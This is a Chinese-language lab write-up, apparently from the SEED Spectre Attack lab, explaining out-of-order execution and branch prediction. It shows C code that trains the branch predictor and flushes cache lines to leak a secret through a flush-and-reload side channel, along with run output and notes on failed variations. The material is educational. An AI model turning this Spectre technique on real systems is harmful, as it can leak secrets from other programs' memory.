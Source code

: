 以上例子中会根据x的大小判断是否执行if中的语句。假设size为10，x为15，第三行语句就不会执行。

但是到CPU中，情况就不一样了，乱序执行的CPU会执行第三行。

这是因为现代计算机中使用乱序执行优化技术，以最大化地利用执行单元。当所需资源（比如x，size）已就位，CPU会执行并行执行相关语句。在当前操作执行的时候，CPU已经超前执行了其他语句。

第二行包含了两个操作：从内存中加载size的值，比较x和size。如果size的值没有在CPU的cache中，访问速度会很慢。因此CPU会预测比较结果，然后根据预测运行分支。因为这些操作在比较结果还没出来之前就执行了，所以称为乱序执行。

当乱序执行的时候，CPU会存储当前的状态和寄存器的值。在size的值访问到了之后，CPU再检查真实的比较结果。如果预测是正确的，就继续执行，如果预测是错误的，就恢复状态，所有预测的操作都会丢弃。

这个技术显著提升了CPU的性能，但是也引入了风险。因为虽然预测错误会丢弃操作，但是寄存器读取到的预测分支相关内存已经存储到了cache中且没有被丢弃。利用测信道攻击可以窃取该内存内容（很有可能有secret）。

### 2.2. 实验代码

```c
int main(){
  int i;
  // FLUSH the probing array
  flushSideChannel();
  // Train the CPU to take the true branch inside victim()
  // 使用比size（10）小的i训练CPU预测true分支
  for (i = 0; i < 10; i++) {
    _mm_clflush(&size);
    victim(i);
  }
  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
    _mm_clflush(&array[i*4096 + DELTA]);
  // 使用比10大的97调用victim函数并刷新size的值，这样CPU要等待size的值，并且进入预测执行。
  victim(97);
  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
```

### 2.3. Task3

```c
[06/25/20]seed@VM:~/.../Spectre_Attack$ ./SpectreExperiment 
array[97*4096 + 1024] is in cache.
The Secret = 97.
```

- 注释掉`_mm_clflush(&size);`和`_mm_clflush(&size);`
  - 因为size的值已经在cache中，CPU不用等待直接判断除了if的结果为false，不需要分支预测执行。因此测信道攻击失败
- 改为`victim(i+20)`
  - i+20比size大，CPU预测执行被训练为预测false。当调用victim函数的时候，虽然要等待size的值，但是CPU预测正确了执行语句，测信道攻击同样失败。

## 3. Task 4: Spectre攻击

因为CPU不清除预测错误的执行内容，导致测信道攻击的可能性。利用这个漏洞，我们可以窃取同一个程序或不同程序的secret。该lab只实验了同一个程序的。
